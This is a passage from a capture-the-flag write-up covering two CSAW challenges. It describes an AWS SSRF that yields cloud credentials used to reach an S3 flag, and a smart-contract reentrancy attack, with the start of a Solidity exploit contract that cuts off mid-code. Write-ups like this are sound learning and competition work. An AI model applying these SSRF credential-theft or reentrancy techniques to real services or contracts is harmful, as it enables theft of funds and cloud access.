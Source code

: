 Now I have an idea why do I need the JWT token. I added a cookie with the name of **secret**.
![Lost in amazon access /developer/heaven](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608215/csaw/lost-in-amazon-access_zf2ld5.png)  

It was really easy now. Going back to the name of the Task and especially the **amazon** part. I knew it was an amazon SSRF vulnerability.
I didn't waste any time.

> I tried tempering with the _magiccall paramater but it gave nothing so I passed.

![Lost in amazon aws creds](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608194/csaw/lost-in-amazon-creds_df6cet.png)  

I added the profile to my **aws-cli**.
![Lost in amazon aws configure](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608193/csaw/lost-in-amazon-aws-config_nzybus.png)  

Then I tried to look for any **s3 buckets**
![Lost in amazon s3 error](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608184/csaw/lost-in-amazon-s3_ie3fcj.png)  

My teammate **N0s** pinged me here and told me to try to specify the bucket region as buckets can be region-specific. So I looked for it
![Lost in amazon finding region](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608186/csaw/lost-in-amazon-region_tcoilm.png)  

and finally I got the flag.
![Lost in amazon flag](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608189/csaw/lost-in-amazon-flag-aws_qr4uzq.png)

## DonateMe

![Donate more](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1663608208/csaw/donate-more_efrhig.png)  

A basic **reentrancy vulnerability**. I crafted an evil contract to exploit it.

1. Send 0.0001 ether to trigger the reentrancy loop.
2. Stop the loop after the balance gets to 30.
3. Send the token via **getFlag**
   > You can use ethers.utils.formatBytes32String(TOKEN) to get the right format to pass.
4. **yes** and get the flag.

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.7;    

interface VictimContract { 
    function newAccount()  external payable;

    function donateOnce()  external;

    function getBalance() external view returns (uint256 donatorBalance) ;
    function getFlag(bytes32 _token) external ;
}

contract ExploitDonation { 
    address public victimAddress;
    VictimContract victimContract; 

    constructor(address _victimAddress){
            victimAddress=_victimAddress;
            victimContract=VictimContract(victimAddress);
    }

    function startAttack() public payable {
        victimContract.newAccount{value:msg.value}();
        victimContract.donateOnce();

    }
```